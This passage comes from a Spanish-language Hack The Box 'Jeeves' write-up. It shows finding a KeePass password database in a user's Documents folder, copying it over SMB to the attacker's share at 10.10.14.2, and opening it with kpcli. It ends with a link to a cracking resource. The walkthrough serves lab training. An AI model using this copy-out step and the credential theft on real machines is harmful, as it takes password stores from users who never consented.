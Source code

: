 Enumerando las carpetas de `kohsuke` encontramos una base de datos de contraseñas en `Documents`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/jeeves/114bash_kohsukeSH_dirDocuments.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Por si no conoces los archivos **.kdbx**:

🔐 ***Un objeto con la extensión `.kdbx` es un archivo <u>KeePass Password Database</u>, la finalidad de estos archivos es almacenar y proteger un grupo de contraseñas de manera segura. Para acceder a la base de datos se necesita una contraseña -madre- o -maestra- que es la encargada de securizar toooooodas las demás contraseñas.***

Más info **KeePass** y **.kdbx**:

* [KeePass](https://es.wikipedia.org/wiki/KeePass).
* [Opening KDBX Files](https://filext.com/file-extension/KDBX).

...

## Jugamos con el archivo <u>.kdbx</u> y obtenemos <u>master password</u> [📌](#keepass2john) {#keepass2john}

Existe una herramienta llamada [kpcli](http://kpcli.sourceforge.net/) con la cual podemos jugar para interactuar con la base de datos, pero primero pasémonos el archivo a nuestro sistema:

```powershell
c:\\Users\kohsuke\Documents>copy CEH.kdbx \\10.10.14.2\smbFolder\CEH.kdbx
```

```bash
❱ file CEH.kdbx 
CEH.kdbx: Keepass password database 2.x KDBX
```

Esta este excelente tutorial del que nos guiaremos para leer la base de datos:

* [How To Use kpcli To Manage KeePass2 Password Files](https://www.digitalocean.com/community/tutorials/how-to-use-kpcli-to-manage-keepass2-password-files-on-an-ubuntu-14-04-server).

Ejecutamos la herramienta y le indicamos que vamos a usar el archivo `.kdbx`:

```bash
❱ kpcli 
```

```bash
kpcli:/> open CEH.kdbx 
Please provide the master password:
```

Jmmmm, lo que habíamos dicho antes, por lo general es necesaria una password maestra... Al colocar cualquier cosa obtenemos:

> <span style="color: yellow;">Couldn't load the file CEH.kdbx: The database key appears invalid or else the database is corrupt.</span>

F, F, F...

Dando algunas vueltas encontramos este recurso:

* [Cracking KeePass Database](https://tzusec.com/tag/keepass2john/).
